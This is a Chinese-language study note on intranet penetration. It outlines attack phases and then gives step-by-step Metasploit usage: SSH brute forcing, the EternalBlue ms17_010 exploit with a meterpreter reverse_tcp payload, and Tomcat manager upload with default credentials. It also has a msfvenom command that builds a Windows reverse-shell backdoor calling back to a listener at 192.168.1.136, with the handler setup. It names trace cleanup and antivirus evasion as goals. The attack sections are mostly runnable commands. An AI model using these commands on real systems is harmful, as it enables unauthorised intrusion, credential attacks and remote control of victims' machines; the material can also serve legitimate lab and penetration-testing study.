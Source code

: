 ```yaml
---
typora-root-url: ./
---
```


## 0x01 内网渗透流程

- 一般都是针对Windows系统进行内网渗透

1. 外部打点（外部攻击，如网站渗透getshell）
2. 内网信息收集（系统信息，网络信息，密码，防火墙信息等）
3. 提权
4. 横向渗透（同网段渗透）
5. 纵向渗透（跨网段渗透，如同一主机同时有两个网络环境的ip）
6. 权限维持
7. 痕迹清理

- 免杀

- 域渗透

  

## 0x02 外部打点

### 一、漏洞挖掘

1. 历史漏洞（RCE）
2. 0day
3. 手动挖掘owasp top 10

### 二、漏洞利用

1. 上传webshell

2. 反弹shell

3. 渗透测试框架 远控后门（Metasploit、CobaltStrike）

   

### 三、Metasploit

#### 1. Metasploit概述

- metasploit是一个集成的渗透测试框架

- 官网：https://metasploit.com

- github项目地址：https://github.com/rapid7/metasploit-framework

- 官方文档：https://docs.rapid7.com/metasploit/

- 官方视频：https://www.youtube.com/c/MetasploitR7

- 安装：

  wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run
  chmod +x metasploit-latest-linux-x64-installer.run
  ./metasploit-latest-linux-x64-installer.run

#### 2. 基础构成

- modules
  - auxiliary:辅助模块,辅助渗透（端口扫描、登录密码爆破、漏洞验证等)
  - exploits:漏洞利用模块，包含主流的漏洞利用脚本，通常是对某些可能存在漏洞的目标进行漏洞利用。命名规则:操作系统/各种应用协议分类
  - payloads:攻击载荷，主要是攻击成功后在目标机器执行的代码，比如反弹shell的代码
  - post:后渗透阶段模块，漏洞利用成功获得meterpreter之后，向目标发送的一些功能性指令，如:提权等
  - encoders:编码器模块，主要包含各种编码工具，对payload进行编码加密，以便绕过入侵检测和过滤系统
  - evasion:躲避模块,用来生成免杀payload
  - nops:由于IDS/IPs会检查数据包中不规则的数据，在某些情况下，比如针对溢出攻击，某些特殊滑行字符串(NOPS x90x90...)则会因为被拦截而导致攻击失效。

- db

#### 3. 基础使用

1. msfdb init（初始化数据库，开启5432端口）
2. msfconsole（进入msf命令行接口）

### 4. 使用流程

1. 使用模块

   - 可以使用search查找相关模块

   - use 模块序号/模块全称
    ![image-20220704111546717](..\img\内网渗透1\image-20220704111546717.png)

2. 配置模块

   - show options或options查看配置

   - required是yes代表是必填项，若为空则需要手动配置

   - 选择相应配置项set配置参数
     ![image-20220704112314465](..\img\内网渗透1\image-20220704112314465.png)

3. 运行模块
   - run或exploit

### 5. 使用示例

- 爆破ssh服务

  1. search ssh scanner查找相关模块

     ![image-20220704115740588](..\img\内网渗透1/image-20220704115740588.png)

  2. use使用模块

     use auxiliary/scanner/ssh/ssh_login

  3. option查看配置选项

     ![image-20220704115817591](..\img\内网渗透1/image-20220704115817591.png)

  4. set配置参数

  5. run运行模块

- 爆破ftp
  1. search ftp auxilary scanner

- 永恒之蓝

  smb服务445端口，ms17_010

  1）使用模块

  - search ms_17_010
  - use 0

  2）配置模块

  - module options：
    - rhost 目标地址
  - payload options：
    - meterpreter  msf后渗透模块
    - windows/x64/meterpreter/reverse_tcp 系统版本/架构/协作的操作/操作方法
    - lhost 监听机地址
    - lport 监听端口
  - exploit target ：自动

  3）使用模块

  - run/exploit

- tomcat后台部署漏洞

  - search tomcat
  - use exploit/multi/http/tomcat_mgr_upload
  - show options
  - set rhost
  - set rport
  - set httpusername tomcat
  - set httppassword tomcat
  - set lhost
  - set lport
  - run


### 6. msfconsole 和 meterpreter相关命令

   - exit
   - background 当前会话放到后台
   - sessions 列出后台会话
   - sessions [ID] 进入会话
   - \>meterpreter shell 获取目标命令行
   - \>meterpreter getuid 获取当前用户信息
   - \>cmd chcp 65001 修改编码为utf-8
   - \>msf6 jobs 列出所有job
   - \>msf6 job -K 关闭所有
   - \>msf6 job -k  ID 关闭指定job

### 7. msfvenom 生成远控木马

1. 生成后门

​	msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.136 lport=12345 -f exe -o 123.exe

2. 攻击机开启监听

​	正常开启：

1. msfconsole
2. use exploit/multi/handler
3. set payload windows/x64/meterpreter/reverse_tcp
4. set lhost xxx.xxx.xxx.xxx
5. set lport xxxx
6. run

​	快捷开启：hander -p windows/x64/meterpreter/reverse_tcp -H 192.168.10.77 -P 12345

3. 靶机运行后门，上线meterpreter



